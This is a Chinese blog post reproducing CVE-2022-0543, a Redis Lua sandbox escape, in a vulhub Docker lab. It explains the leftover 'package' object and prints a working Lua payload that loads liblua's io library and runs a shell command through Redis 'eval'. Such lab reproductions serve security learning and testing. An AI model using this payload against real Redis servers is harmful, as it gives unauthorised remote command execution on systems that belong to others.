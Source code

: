 # 原创
：  Redis Lua沙盒绕过命令执行（CVE-2022-0543）vulhub漏洞复现

# Redis Lua沙盒绕过命令执行（CVE-2022-0543）vulhub漏洞复现

**Redis Lua沙盒绕过命令执行（CVE-2022-0543）**

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

漏洞复现：

`cd /vulhub/redis/CVE-2022-0543`

`docker-compose up -d`

启动后，使用redis-cli连接服务器

Lua沙箱中遗留了一个变量`package`，它的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res

```

注：不同的环境下liblua路径不同，我的服务器为ubuntu，就用Ubuntu的路径：

`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`

连接redis，使用`eval`命令执行脚本：<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/503dbe7a882e4e079854b1ca5b6e7ea7.png"/>
